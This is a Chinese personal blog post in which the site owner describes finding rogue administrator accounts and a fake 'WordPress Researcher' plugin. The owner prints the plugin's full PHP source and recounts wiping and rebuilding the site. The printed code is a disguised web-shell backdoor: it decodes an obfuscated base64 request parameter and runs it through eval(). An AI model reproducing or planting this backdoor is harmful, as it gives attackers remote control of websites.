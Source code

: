 ```yaml
---
layout: post
title: 被黑了？
date: 2014-11-21 23:23
author: 老杨
comments: true
categories: [wordpress, 信息技术]
---
```

早上起来，帮<a href="//cyhour.com/author/小嫦子" target="_blank">嫦子</a>发了篇<a href="http://cyhour.com/136" target="_blank">文章</a>。选择作者的时候，发现多了几个不知名（肯定不是我自己注册的、另外也关闭注册了的）的作者，吓了一跳。

检查了一遍，数据没丢失，那些管理员全部都是2010年3月19号注册的。检查插件，发现多了一个叫 <span style = "color:red;">WordPress Researcher</span> 的东东（文件最后修改日期是20141113）。哎，杯具了。就这么个破站，有啥好搞的呢？

<!--more-->

<img src="//cyhour.com/wp-content/uploads/2014/11/lots-of-admin.jpg" alt="lots-of-admin" />
<hr />
<img src="//cyhour.com/wp-content/uploads/2014/11/WordPress-Researcher.jpg" alt="WordPress Researcher"  />

那插件就一个文件，附上代码，不知道有啥用。

<pre style="margin:15px 0;font:100 12px/18px monaco, andale mono, courier new;padding:10px 12px;border:#ccc 1px solid;border-left-width:4px;background-color:#fefefe;box-shadow:0 0 4px #eee;word-break:break-all;word-wrap:break-word;color:#444"><span style="color:#555">&lt;?php</span><br><span style="color:#a50">/*</span><br><span style="color:#a50">Plugin Name: WordPress Researcher</span><br><span style="color:#a50">Plugin URI: http://wordpress.org/extend/plugins/</span><br><span style="color:#a50">Description: WordPress research tool.</span><br><span style="color:#a50">Author: wordpressdotorg</span><br><span style="color:#a50">Author URI: http://wordpress.org/</span><br><span style="color:#a50">Text Domain: wordpress-researcher</span><br><span style="color:#a50">License: GPL version 2 or later - http://www.gnu.org/licenses/old-licenses/gpl-2.0.html</span><br><span style="color:#a50">Version: 2.2.4</span><br><span style="color:#a50">*/</span><br>    <span style="color:#708">function</span> <span style="color:#@cm-word">research_plugin</span>()<br>    {<br>        <span style="color:#708">if</span> (<span style="color:#708">isset</span>(<span style="color:#000-2">$_REQUEST</span>[<span style="color:#a11">'X3PN'</span>]))<br>        {<br>            <span style="color:#000-2">$myfunc</span> <span style="color:#000">=</span> <span style="color:#a11">'bas'</span>.<span style="color:#a11">'e64_'</span>.<span style="color:#a11">'dec'</span>.<span style="color:#a11">'ode'</span>;<br>            <span style="color:#000-2">$myvar</span> <span style="color:#000">=</span> <span style="color:#000-2">$myfunc</span>(<span style="color:#000-2">$_REQUEST</span>[<span style="color:#a11">'X3PN'</span>]);<br>            <span style="color:#708">eval</span>(<span style="color:#000-2">$myvar</span>);<br>        }<br>        <span style="color:#@cm-word">return</span>;<br>    }<br><br>    <span style="color:#@cm-word">add_action</span>(<span style="color:#a11">'after_setup_theme'</span>, <span style="color:#a11">'research_plugin'</span>);<br><span style="color:#555">?&gt;</span></pre>

程序文件全部删掉了，导出了xml，数据库也不要了，重新安装导入了文章和评论内容，主题也重新检查了一遍，折腾大半天，终于又差不多回复原貌了。才发现，友链忘了备份了！又得手工整理一遍，累！
